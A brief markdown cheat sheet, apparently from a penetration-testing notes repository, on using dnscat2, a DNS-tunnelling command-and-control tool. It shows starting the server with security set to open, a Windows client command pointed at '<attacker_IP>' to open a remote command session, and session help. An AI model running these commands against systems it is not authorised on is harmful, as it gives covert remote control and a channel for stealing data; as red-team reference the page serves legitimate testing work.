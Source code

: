 # DNSCat

TODO: Provide a usage example with dnscat

## Usage

```
$ sudo ./dnscat2.rb

dnscat2> set security=open
```

```
C:\> dnscat2-win32.exe --host <attacker_IP>
```

## Help Menu

```
dnscat2> session -i 1

command session 1> help
```

## References

- [DNScat](https://github.com/iagox86/dnscat2)